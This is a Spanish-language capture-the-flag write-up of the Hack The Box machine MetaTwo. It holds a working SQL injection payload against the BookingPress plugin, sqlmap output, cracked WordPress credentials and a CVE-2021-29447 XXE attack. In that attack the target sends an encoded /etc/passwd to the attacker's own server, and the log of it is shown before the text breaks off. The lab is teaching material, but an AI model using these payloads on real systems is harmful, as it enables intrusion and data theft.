+++
author = "Andrés Del Cerro"
title = "Hack The Box: MetaTwo Writeup | Easy"
date = "2024-07-27"
description = ""
tags = [
    "HackTheBox",
    "MetaTwo",
    "Writeup",
    "Cybersecurity",
    "Penetration Testing",
    "CTF",
    "Reverse Shell",
    "Privilege Escalation",
    "RCE",
    "Exploit",
    "Linux",
    "HTTP Enumeration",
    "SQL Injection",
    "Hash Cracking",
    "CVE-2021-29447",
    "XXE",
    "Information Leakage",
    "Abusing Passpie",
    "Privilege Escalation"
]

+++

# Hack The Box: MetaTwo Writeup

Welcome to my detailed writeup of the easy difficulty machine **"MetaTwo"** on Hack The Box. This writeup will cover the steps taken to achieve initial foothold and escalation to root.

# TCP Enumeration

```console
$ rustscan -a 10.129.228.95 --ulimit 5000 -g
10.129.228.95 -> [21,22,80]
```

```console
$ nmap -p21,22,80 -sCV 10.129.228.95 -oN allPorts
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-27 14:51 CEST
Stats: 0:02:51 elapsed; 0 hosts completed (1 up), 1 undergoing Script Scan
NSE Timing: About 99.53% done; ETC: 14:54 (0:00:00 remaining)
Stats: 0:02:52 elapsed; 0 hosts completed (1 up), 1 undergoing Script Scan
NSE Timing: About 99.53% done; ETC: 14:54 (0:00:00 remaining)
Nmap scan report for 10.129.228.95
Host is up (0.037s latency).

PORT   STATE SERVICE VERSION
21/tcp open  ftp?
22/tcp open  ssh     OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
| ssh-hostkey: 
|   3072 c4:b4:46:17:d2:10:2d:8f:ec:1d:c9:27:fe:cd:79:ee (RSA)
|   256 2a:ea:2f:cb:23:e8:c5:29:40:9c:ab:86:6d:cd:44:11 (ECDSA)
|_  256 fd:78:c0:b0:e2:20:16:fa:05:0d:eb:d8:3f:12:a4:ab (ED25519)
80/tcp open  http    nginx 1.18.0
|_http-title: Did not follow redirect to http://metapress.htb/
|_http-server-header: nginx/1.18.0
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 230.36 seconds
```

# UDP Enumeration

```console
$ sudo nmap --top-ports 1500 --min-rate 5000 -n -Pn -sU 10.129.228.95 -oN allPorts.UDP
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-27 15:01 CEST
Nmap scan report for 10.129.228.95
Host is up (0.049s latency).
Not shown: 1494 open|filtered udp ports (no-response)
PORT      STATE  SERVICE
25913/udp closed unknown
26994/udp closed unknown
27025/udp closed unknown
31720/udp closed unknown
40539/udp closed unknown
58178/udp closed unknown

Nmap done: 1 IP address (1 host up) scanned in 0.78 seconds
```

En el escaneo inicial hemos descubierto el dominio `metapress.htb` , lo añadimos al `/etc/hosts`

# FTP Enumeration
Por ahora el script `ftp-anon` de `nmap` no me ha reportado que podemos conectarnos anónimamente por FTP, así que sin credenciales no podemos hacer mucho.
# HTTP Enumeration
```console
$ whatweb http://metapress.htb
http://metapress.htb [200 OK] Cookies[PHPSESSID], Country[RESERVED][ZZ], HTML5, HTTPServer[nginx/1.18.0], IP[10.129.228.95], MetaGenerator[WordPress 5.6.2], PHP[8.0.24], PoweredBy[--], Script, Title[MetaPress &#8211; Official company site], UncommonHeaders[link], WordPress[5.6.2], X-Powered-By[PHP/8.0.24], nginx[1.18.0]
```
`whatweb` nos reporta que estamos en frente de un `WordPress 5.6.2`

```console
$ wpscan --url http://metapress.htb -evp,vt,u1-50                                 
_______________________________________________________________                           
         __          _______   _____                                                      
         \ \        / /  __ \ / ____|                                                     
          \ \  /\  / /| |__) | (___   ___  __ _ _ __ ®                                    
           \ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \                                     
            \  /\  /  | |     ____) | (__| (_| | | | |                                    
             \/  \/   |_|    |_____/ \___|\__,_|_| |_|                                    
                                                                                          
         WordPress Security Scanner by the WPScan Team                                    
                         Version 3.8.25                                                   
       Sponsored by Automattic - https://automattic.com/                                  
       @_WPScan_, @ethicalhack3r, @erwan_lr, @firefart                                    
_______________________________________________________________                           
                                                                                          
^[[A^[[A[+] URL: http://metapress.htb/ [10.129.228.95]                                                          
[+] Started: Tue Aug 27 15:15:24 2024                   

Interesting Finding(s):                                 

[+] Headers                       
 | Interesting Entries:                                             
 |  - Server: nginx/1.18.0                                          
 |  - X-Powered-By: PHP/8.0.24                                      
 | Found By: Headers (Passive Detection)                                       
 | Confidence: 100%                    

[+] robots.txt found: http://metapress.htb/robots.txt                                                                                                         
 | Interesting Entries:                                                        
 |  - /wp-admin/                       
 |  - /wp-admin/admin-ajax.php                 
 | Found By: Robots Txt (Aggressive Detection)                                                 
 | Confidence: 100%                            

[+] XML-RPC seems to be enabled: http://metapress.htb/xmlrpc.php                               
 | Found By: Direct Access (Aggressive Detection)                                              
 | Confidence: 100%                            
 | References:                                 
 |  - http://codex.wordpress.org/XML-RPC_Pingback_API                                                                  
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_ghost_scanner/                                
 |  - https://www.rapid7.com/db/modules/auxiliary/dos/http/wordpress_xmlrpc_dos/                                       
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_xmlrpc_login/                                 
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_pingback_access/                              

[+] WordPress readme found: http://metapress.htb/readme.html                                                                            
 | Found By: Direct Access (Aggressive Detection)                                                                                       
 | Confidence: 100%                                                 

[+] The external WP-Cron seems to be enabled: http://metapress.htb/wp-cron.php                                                          
 | Found By: Direct Access (Aggressive Detection)                                                                                       
 | Confidence: 60%                                                  
 | References:                                                      
 |  - https://www.iplocation.net/defend-wordpress-from-ddos                                                                                                   
 |  - https://github.com/wpscanteam/wpscan/issues/1299                                                                                                        

[+] WordPress version 5.6.2 identified (Insecure, released on 2021-02-22).                                                                                    
 | Found By: Rss Generator (Passive Detection)                                                                                                                
 |  - http://metapress.htb/feed/, <generator>https://wordpress.org/?v=5.6.2</generator>                                                                       
 |  - http://metapress.htb/comments/feed/, <generator>https://wordpress.org/?v=5.6.2</generator>                                                              

[+] WordPress theme in use: twentytwentyone                                    
 | Location: http://metapress.htb/wp-content/themes/twentytwentyone/                                                                                          
 | Last Updated: 2024-07-16T00:00:00.000Z                                      
 | Readme: http://metapress.htb/wp-content/themes/twentytwentyone/readme.txt                                                                                  
 | [!] The version is out of date, the latest version is 2.3
 | Style URL: http://metapress.htb/wp-content/themes/twentytwentyone/style.css?ver=1.1    
 | Style Name: Twenty Twenty-One                                                          
 | Style URI: https://wordpress.org/themes/twentytwentyone/                               
 | Description: Twenty Twenty-One is a blank canvas for your ideas and it makes the block editor your best brush. Wi...                                       
 | Author: the WordPress team                                                             
 | Author URI: https://wordpress.org/                                                     
 |                                                                                        
 | Found By: Css Style In Homepage (Passive Detection)                                                          
 | Confirmed By: Css Style In 404 Page (Passive Detection)                                                                                                    
 |                                                                                                                                                            
 | Version: 1.1 (80% confidence)                                                                                                                              
 | Found By: Style (Passive Detection)                                         
 |  - http://metapress.htb/wp-content/themes/twentytwentyone/style.css?ver=1.1, Match: 'Version: 1.1'                                                         
                                                                                                                                                              
[+] Enumerating Vulnerable Plugins (via Passive Methods)                                                                                                      
                                                                                                                                                              
[i] No plugins Found.                                                                                                                                         
                                                                                                                                                              
[+] Enumerating Vulnerable Themes (via Passive and Aggressive Methods)                                                                                        
 Checking Known Locations - Time: 00:00:09 <==========> (652 / 652) 100.00% Time: 00:00:09                                                                    
[+] Checking Theme Versions (via Passive and Aggressive Methods)                                                                                              
                                       
[i] No themes Found.                                                           
                                                                                               
[+] Enumerating Users (via Passive and Aggressive Methods)                                                                                                    
 Brute Forcing Author IDs - Time: 00:00:01 <============> (50 / 50) 100.00% Time: 00:00:01                                                                    
                                                                                                                                                              
[i] User(s) Identified:                                                                                                                                       
                                                                                                                                                              
[+] admin                                                                      
 | Found By: Author Posts - Author Pattern (Passive Detection)                                                         
 | Confirmed By:                                                                                                       
 |  Rss Generator (Passive Detection)                                                                                  
 |  Wp Json Api (Aggressive Detection)                                                                                 
 |   - http://metapress.htb/wp-json/wp/v2/users/?per_page=100&page=1                                                   
 |  Rss Generator (Aggressive Detection)                                                                                                                      
 |  Author Sitemap (Aggressive Detection)                                                                                               
 |   - http://metapress.htb/wp-sitemap-users-1.xml                                                                                      
 |  Author Id Brute Forcing - Author Pattern (Aggressive Detection)                                                                                           
 |  Login Error Messages (Aggressive Detection)                                                                                                               
                                                                                                                                        
[+] manager                                                                                                                             
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)                                                                                  
 | Confirmed By: Login Error Messages (Aggressive Detection)                                                                                                  
                                                                                                                                                              
[!] No WPScan API Token given, as a result vulnerability data has not been output.                                                                            
[!] You can get a free API token with 25 daily requests by registering at https://wpscan.com/register                                                         
                                                                                                                                                              
[+] Finished: Tue Aug 27 15:15:43 2024                                                                                                                        
[+] Requests Done: 746                                                                                                                                        
[+] Cached Requests: 10                                                                                                                                       
[+] Data Sent: 224.391 KB                                                                                                                                     
[+] Data Received: 702.891 KB                                                  
[+] Memory used: 269.988 MB                                                                                                                                   
[+] Elapsed time: 00:00:18
```

`wpscan` nos reporta que existen dos usuarios, `admin`y `manager`

Así se ve el sitio web.


en `/events` podemos hacer una "reserva" para acudir a una reunión.

Esto me hizo pensar que debe de estar gestionándolo algún plugin personalizado o no por detrás.


En `/wp-content/plugins` no tenemos capacidad de directory listing.


Podemos fuzzear utilizando un diccionario de plugins de wordpress pero no encontramos nada.
```console
$ feroxbuster -u http://metapress.htb -w /opt/SecLists/Discovery/Web-Content/CMS/w
p-plugins.fuzz.txt -d 1 -t 100
```

Antes de empezar a probar cosas en la petición para reservar la reunión vamos a buscar vulnerabilidades asociadas a la versión de wordpress ya que es bastante antigua.

Nos encontramos [este PoC](https://github.com/0xRar/CVE-2021-29447-PoC)


Parece que esta versión de WP es vulnerable a CVE-2021-29447, una vulnerabilidad de tipo XML External Entity Injection donde podemos conseguir archivos internos del sistema.

Para poder explotar esto necesitamos saber que se utiliza PHP Versión 8 y necesitamos tener la habilidad de subir archivos.

Si volvemos al `whatweb` vemos que la siguiente cabecera **X-Powered-By[PHP/8.0.24]** .

Ahora solo nos falta poder subir un archivo.

## SQL Injection -> `manager` credentials
Analizando el código del formulario vemos lo siguiente.


Parece que el apartado para hacer la reserva lo gestiona un plugin llamado `BookingPress`

Y parece que es vulnerable a SQL Injection


El campo vulnerable tiene pinta de ser `total_service`


Vamos a hacer lo que se nos indica para confirmar que es vulnerable.

Necesitamos recuperar un `nonce` para hacer la petición.


`adfcb62f65` es el nonce

Y podemos ver que es vulnerable ya que nos devuelve la versión de la base de datos en uso.
```console
$ curl -i 'http://metapress.htb/wp-admin/admin-ajax.php'   --data 'action=bookingpress_front_get_category_services&_wpnonce=adfcb62f65&category_id=33&total_service=-7502) UNION ALL SELECT @@version,@@version_comment,@@version_compile_os,1,2,3,4,5,6-- -'         
HTTP/1.1 200 OK
Server: nginx/1.18.0
Date: Tue, 27 Aug 2024 11:39:51 GMT
Content-Type: text/html; charset=UTF-8
Transfer-Encoding: chunked
Connection: keep-alive
X-Powered-By: PHP/8.0.24
X-Robots-Tag: noindex
X-Content-Type-Options: nosniff
Expires: Wed, 11 Jan 1984 05:00:00 GMT
Cache-Control: no-cache, must-revalidate, max-age=0
X-Frame-Options: SAMEORIGIN
Referrer-Policy: strict-origin-when-cross-origin

[{"bookingpress_service_id":"10.5.15-MariaDB-0+deb11u1","bookingpress_category_id":"Debian 11","bookingpress_service_name":"debian-linux-gnu","bookingpress_service_price":"$1.00","bookingpress_service_duration_val":"2","bookingpress_service_duration_unit":"3","bookingpress_service_description":"4","bookingpress_service_position":"5","bookingpress_servicedate_created":"6","service_price_without_currency":1,"img_url":"http:\/\/metapress.htb\/wp-content\/plugins\/bookingpress-appointment-booking\/images\/placeholder-img.jpg"}]
```

Ahora con `sqlmap` podemos automatizar esta inyección para trabajar mas cómodamente.
```console
$ sqlmap -u http://metapress.htb/wp-admin/admin-ajax.php --data 'action=bookingpress_front_get_category_services&_wpnonce=adfcb62f65&category_id=33&total_service=-7502*' --level 5 --risk 3 --dbms=MariaDB --batch                                                                                                  
        ___                                                                                                                                                                                                                                                                                                                  
       __H__                                                                                                                                                                                                                                                                                                                 
 ___ ___[)]_____ ___ ___  {1.8.3#stable}                                                                                                                                                                                                                                                                                     
|_ -| . [)]     | .'| . |                                                                                                                                                                                                                                                                                                    
|___|_  [(]_|_|_|__,|  _|                                                                                                                                                                                                                                                                                                    
      |_|V...       |_|   https://sqlmap.org                                                                                                                                                                                                                                                                                 
                                                                                                                                                                                                                                                                                                                             
[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program                        
                                                                                                                                                                                                                                                                                                                             
[*] starting @ 15:41:03 /2024-08-27/                                                                                                                                                                                                                                                                                         
                                                                                                                                                                                                                                                                                                                             
custom injection marker ('*') found in POST body. Do you want to process it? [Y/n/q] Y                                                                                                                                                                                                                                       
[15:41:05] [INFO] testing connection to the target URL
....
[15:41:21] [INFO] (custom) POST parameter '#1*' appears to be 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)' injectable                                 
[15:41:21] [INFO] testing 'Generic UNION query (NULL) - 1 to 20 columns'                                                                                      
[15:41:21] [INFO] automatically extending ranges for UNION query injection technique tests as there is at least one other (potential) technique found         
[15:41:22] [INFO] target URL appears to be UNION injectable with 9 columns                                                                                    
[15:41:22] [INFO] (custom) POST parameter '#1*' is 'Generic UNION query (NULL) - 1 to 20 columns' injectable                                                  
[15:41:22] [WARNING] in OR boolean-based injection cases, please consider usage of switch '--drop-set-cookie' if you experience any problems during data retrieval                                                                                                                                                           
(custom) POST parameter '#1*' is vulnerable. Do you want to keep testing the others (if any)? [y/N] N                                                         
sqlmap identified the following injection point(s) with a total of 113 HTTP(s) requests:                                                                      
---                                                                                                                                                           
Parameter: #1* ((custom) POST)                                                                                                                                
    Type: boolean-based blind                                                                                                                                 
    Title: OR boolean-based blind - WHERE or HAVING clause                                                                                                    
    Payload: action=bookingpress_front_get_category_services&_wpnonce=adfcb62f65&category_id=33&total_service=-9130) OR 5341=5341-- LabT                      
                                                                                                                                                              
    Type: time-based blind                                                                                                                                    
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)                                                                                                 
    Payload: action=bookingpress_front_get_category_services&_wpnonce=adfcb62f65&category_id=33&total_service=-7502) AND (SELECT 9278 FROM (SELECT(SLEEP(5)))xcAO)-- ZQLG                                                                                                                                                    
                                                                                                                                                              
    Type: UNION query                                                                                                                                         
    Title: Generic UNION query (NULL) - 9 columns                                                                                                             
    Payload: action=bookingpress_front_get_category_services&_wpnonce=adfcb62f65&category_id=33&total_service=-7502) UNION ALL SELECT NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,CONCAT(0x7176626b71,0x53485a4262794b64636e414c63736651424446676a53414f446c584f7278746166737a5a51534d6c,0x716b7a7171)-- -
---                                                                                                                                                           
[15:41:22] [INFO] the back-end DBMS is MySQL                                                                                                                  
web application technology: PHP 8.0.24, Nginx 1.18.0                                                                                                          
back-end DBMS: MySQL >= 5.0.12 (MariaDB fork)                                                                                                                 
[15:41:22] [INFO] fetched data logged to text files under '/home/pointedsec/.local/share/sqlmap/output/metapress.htb'                       
[*] ending @ 15:41:22 /2024-08-27/
```

Podemos ir dumpeando la información
```shell
available databases [2]:
[*] blog
[*] information_schema
```

```shell
Database: blog                               
[27 tables]                                             
+--------------------------------------+                
| wp_bookingpress_appointment_bookings |                
| wp_bookingpress_categories           |                
| wp_bookingpress_customers            |                
| wp_bookingpress_customers_meta       |                            
| wp_bookingpress_customize_settings   |                            
| wp_bookingpress_debug_payment_log    |                                       
| wp_bookingpress_default_daysoff      |                                                                                                
| wp_bookingpress_default_workhours    |                                                                                                                      
| wp_bookingpress_entries              |       
| wp_bookingpress_form_fields          |                                       
| wp_bookingpress_notifications        |       
| wp_bookingpress_payment_logs         |                                                                                                                      
| wp_bookingpress_services             |       
| wp_bookingpress_servicesmeta         |       
| wp_bookingpress_settings             |                   
| wp_commentmeta                       |                                                                                                                                                      
| wp_comments                          |                   
| wp_links                             |       
| wp_options                           |                   
| wp_postmeta                          |                                                       
| wp_posts                             |       
| wp_term_relationships                |                                                                                                                                                                                                      
| wp_term_taxonomy                     |                            
| wp_termmeta                          |                   
| wp_terms                             |                            
| wp_usermeta                          |                                                                               
| wp_users                             |                   
+--------------------------------------+
```

Si dumpeamos la información de la tabla `wp_users` vemos dos hashes de los dos usuarios vistos anteriormente

- admin -> `P$B4aNM28N0E.tMy/JIcnVM`
- manager -> `$P$B4aNM28N0E.tMy/JIcnVMZbGcU16Q70`

Con `john` podemos crackear uno de estos hashes
```console
$ john -w=/usr/share/wordlists/rockyou.txt hashes 
Using default input encoding: UTF-8
Loaded 2 password hashes with 2 different salts (phpass [phpass ($P$ or $H$) 256/256 AVX2 8x3])
Cost 1 (iteration count) is 8192 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
partylikearockstar (?)
```

Esta es la credencial para el usuario `manager`.

Ahora podemos iniciar sesión como `manager` en `/wp-admin`


## CVE-2021-29447 XXE
Y ahora podríamos hacer la explotación para subir este archivo .wav malicioso.


```console
$ sudo python3 PoC.py -l 10.10.14.125 -p 80 -f /etc/passwd                        
                                                                                          
    ╔═╗╦  ╦╔═╗                                                                            
    ║  ╚╗╔╝║╣────2021-29447                                                               
    ╚═╝ ╚╝ ╚═╝                                                                            
    Written By (Isa Ebrahim - 0xRar) on January, 2023                                     
                                                                                          
    ═══════════════════════════════════════════════════════════════════════════           
    [*] Title: Wordpress XML parsing issue in the Media Library leading to XXE            
    [*] Affected versions: Wordpress 5.6 - 5.7                                            
    [*] Patched version: Wordpress 5.7.1                                                  
    [*] Installation version: PHP 8                                                       
    ═══════════════════════════════════════════════════════════════════════════           
                                                                                          
[+] payload.wav was created.                                                              
[+] evil.dtd was created.                                                                 
[+] manually upload the payload.wav file to the Media Library.                            
[+] wait for the GET request.                           

[Tue Aug 27 15:48:25 2024] PHP 8.2.20 Development Server (http://0.0.0.0:80) started
```

Ahora al subir el archivo .wav


```console
[Tue Aug 27 15:48:46 2024] 10.129.228.95:34156 Accepted                                                         
[Tue Aug 27 15:48:46 2024] 10.129.228.95:34156 [200]: GET /evil.dtd                                             
[Tue Aug 27 15:48:46 2024] 10.129.228.95:34156 Closing                                                                                  
[Tue Aug 27 15:48:46 2024] 10.129.228.95:34172 Accepted                                                                                 
[Tue Aug 27 15:48:46 2024] 10.129.228.95:34172 [404]: GET /?p=jVRNj5swEL3nV3BspUSGkGSDj22lXjaVuum9MuAFusamNiShv74zY8gmgu5WHtB8vHkezxisMS2/8BCWRZX5d1pplgpXLnIha6MBEcEaDNY5yxxAXjWmjTJFpRfovfA1
LIrPg1zvABTDQo3l8jQL0hmgNny33cYbTiYbSRmai0LUEpm2fBdybxDPjXpHWQssbsejNUeVnYRlmchKycic4FUD8AdYoBDYNcYoppp8lrxSAN/DIpUSvDbBannGuhNYpN6Qe3uS0XUZFhOFKGTc5Hh7ktNYc+kxKUbx1j8mcj6fV7loBY4lRrk6aBuw5m
YtspcOq4LxgAwmJXh97iCqcnjh4j3KAdpT6SJ4BGdwEFoU0noCgk2zK4t3Ik5QQIc52E4zr03AhRYttnkToXxFK/jUFasn2Rjb4r7H3rWyDj6IvK70x3HnlPnMmbmZ1OTYUn8n/XtwAkjLC5Qt9VzlP0XT0gDDIe29BEe15Sst27OxL5QLH2G45kMk+OYj
Q+NqoFkul74jA+QNWiudUSdJtGt44ivtk4/Y/yCDz8zB1mnniAfuWZi8fzBX5gTfXDtBu6B7iv6lpXL+DxSGoX8NPiqwNLVkI+j1vzUes62gRv8nSZKEnvGcPyAEN0BnpTW6+iPaChneaFlmrMy7uiGuPT0j12cIBV8ghvd3rlG9+63oDFseRRE/9Mfvj8
FR2rHPdy3DzGehnMRP+LltfLt2d+0aI9O9wE34hyve2RND7xT7Fw== - No such file or directory                                                                            
[Tue Aug 27 15:48:46 2024] 10.129.228.95:34172 Closing                                         
[Tue Aug 27 15:48:47 2024] 10.129.228.95:34176 Accepted                                                                                                       
